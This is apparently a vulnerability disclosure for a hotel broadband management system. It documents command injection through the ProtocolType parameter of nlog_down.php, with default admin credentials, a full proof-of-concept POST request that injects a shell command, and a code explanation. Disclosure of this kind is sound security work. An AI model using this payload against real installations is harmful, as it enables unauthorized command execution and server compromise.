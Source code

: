## Affected version: 
Anmei Digital hotel broadband operating system has a command execution vulnerability

## Official website:
http://www.amttgroup.com/


## Vulnerability File:
/manager/system/nlog_down.php

## Description:
Amie century (Beijing) technology co., LTD. (http://www.amttgroup.com/) is a digital service solution provider for star hotel operating services and digital content.
Anmei Digital hotel broadband operating system has a command execution vulnerability. An attacker could exploit this vulnerability to gain access to the server.

Status: CRITICAL

## Vulnerability recurrence

The login page is shown in the following figure
administrator/admin (because it is executed as a background command)
![image](https://github.com/user-attachments/assets/5f2286c2-e3c7-4c31-8807-2dd02dbba54b)

POC

Since the popen execution command does not echo, write the command to 1.txt through $ProtocolType
```
POC
POST /manager/system/nlog_down.php HTTP/1.1
Host: 127.0.0.1:6070
Cookie: PHPSESSID=4ejs18q1f7o2e1c96jih9pkuu3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23
Priority: u=1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 104

UserMac=22&AccountID=11&UserVlan=1&ProtocolType=12`whoami>1.txt`2
```
![image](https://github.com/user-attachments/assets/705fe938-4d89-4228-abb6-cb1c81c5d80e)


Access the file /manager/system/1.txt to see the results of whiami's execution
![image](https://github.com/user-attachments/assets/fc54a0bb-cfbf-4ab5-b25a-c26a4d6a8e4a)


## code analysis:

In nlog_down.php, there is no filtering because the $ProtocolType parameter is controllable and the parameter is directly spliced ​​into the $cmd variable.
![image](https://github.com/user-attachments/assets/e71378cb-908a-40f1-95f5-f50d79a412c4)
$cmd is finally brought into the popen() function to execute the command, causing the command to be executed
![image](https://github.com/user-attachments/assets/54a7b8f6-271e-4d5b-ada0-d4e4c09f84ac)




